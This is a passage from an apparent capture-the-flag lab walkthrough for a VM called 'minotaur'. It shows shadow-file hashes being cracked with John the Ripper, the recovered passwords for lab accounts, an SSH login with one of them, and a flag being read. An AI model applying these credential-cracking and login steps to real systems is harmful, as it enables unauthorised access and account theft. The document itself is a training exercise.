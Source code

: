 Oh dear! Password file right there in plain text. Well, that's just not cricket! Only thing to do now, is to crack those hashes:

```
knightmare@kali:[~/hack/passwords/john-1.8.0-jumbo-1/run]$ ./unshadow /tmp/passwd /tmp/shadow > /tmp/minotaur
knightmare@kali:[~/hack/passwords/john-1.8.0-jumbo-1/run]$ ./john /tmp/minotaur
Warning: detected hash type "sha512crypt", but the string is also recognized as "crypt"
Use the "--format=crypt" option to force loading these as that type instead
Loaded 4 password hashes with 4 different salts (sha512crypt, crypt(3) $6$ [SHA512 64/64 OpenSSL])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (heffer)
obiwan6          (minotaur)
<<output omitted for brevity>>
```

Hmm, so we now have a couple of logins. Let's test them.

# Front Door

Logging in as heffer:

```
knightmare@kali:[~]$ ssh heffer@minotaur.example.co.uk
heffer@minotaur.example.co.uk's password:
Welcome to Ubuntu 14.04.2 LTS (GNU/Linux 3.16.0-30-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Thu Apr 14 01:46:57 AEST 2016

  System load:  0.32              Processes:           104
  Usage of /:   90.2% of 1.41GB   Users logged in:     0
  Memory usage: 12%               IP address for eth0: 192.168.100.44
  Swap usage:   0%

  => / is using 90.2% of 1.41GB

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Wed May 27 16:57:26 2015
heffer@minotaur:~$ ls -la
total 32
drwx------ 3 heffer heffer 4096 Apr 14 02:23 .
drwxr-xr-x 5 root   root   4096 May 27  2015 ..
lrwxrwxrwx 1 heffer heffer    9 May 27  2015 .bash_history -> /dev/null
-rw-r--r-- 1 heffer heffer  220 May 27  2015 .bash_logout
-rw-r--r-- 1 heffer heffer 3637 May 27  2015 .bashrc
drwx------ 2 heffer heffer 4096 May 27  2015 .cache
-rw------- 1 heffer heffer  107 May 27  2015 flag.txt
-rw-r--r-- 1 heffer heffer  675 May 27  2015 .profile
-rw------- 1 heffer heffer   54 Apr 14 02:23 .Xauthority
heffer@minotaur:~$ cat flag.txt
So this was an easy flag to get, hopefully. Have you gotten ~minotaur/flag.txt yet?
Th3 fl@G 15: m00000 y0
```
